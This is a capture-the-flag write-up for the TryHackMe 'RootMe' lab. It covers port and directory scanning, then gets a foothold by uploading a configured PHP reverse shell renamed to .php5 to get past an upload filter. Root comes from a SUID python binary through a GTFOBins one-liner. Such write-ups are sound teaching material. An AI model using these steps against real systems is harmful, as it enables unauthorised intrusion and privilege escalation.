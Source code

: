 <!-- TOC -->

- [RootMe](#rootme)
    - [Reconnaissance](#reconnaissance)
    - [Getting a shell](#getting-a-shell)
    - [Privilege escalation](#privilege-escalation)

<!-- /TOC -->

# RootMe

[RootMe Room](https://tryhackme.com/room/rrootme)

A ctf for beginners, can you root me?

| Title | IP Address |
| :---- | :---- |
| RootMe | 10.10.196.130 |

## Reconnaissance

```bash
sudo nmap -A -vv -T4 -oA initial 10.10.196.130 
```

> `22/tcp open ssh syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`

> `80/tcp open http syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))`

Result: [initial.nmap](initial.nmap)

> `80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))`

```bash
gobuster dir -u 10.10.196.130:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,sh,css,htm,html,js,php,py -t 100
```

> ```
> /uploads              (Status: 301) [Size: 316] [--> http://10.10.196.130/uploads/]
> /index.php            (Status: 200) [Size: 616]                                    
> /css                  (Status: 301) [Size: 312] [--> http://10.10.196.130/css/]    
> /js                   (Status: 301) [Size: 311] [--> http://10.10.196.130/js/]     
> /panel                (Status: 301) [Size: 314] [--> http://10.10.196.130/panel/]  
> /server-status        (Status: 403) [Size: 278]
> ```

## Getting a shell

Using the famous __pentestmonkey's PHP reverse shell__

Copy and modify `/usr/share/webshells/php/php-reverse-shell.php`

```php
// php-reverse-shell.php5
$ip = '10.6.31.75';  // CHANGE THIS
$port = 80;       // CHANGE THIS
```

```bash
mv php-reverse-shell.php php-reverse-shell.php5
```

Upload to: `http://10.10.196.130/panel/`

Go to: `http://10.10.196.130/uploads/php-reverse-shell.php5`

```bash
find / -type f -name user.txt 2>/dev/null
```

> `/var/www/user.txt`

```bash
cat /var/www/user.txt
```

> `THM{y0u_g0t_a_sh3ll}`

## Privilege escalation

```bash
find / -perm -4000 2>/dev/null
```

> `/usr/bin/python`

Using [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid):

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
find / -type f -name root.txt
```

> `/root/root.txt`

```bash
cat /root/root.txt
```

> `THM{pr1v1l3g3_3sc4l4t10n}`
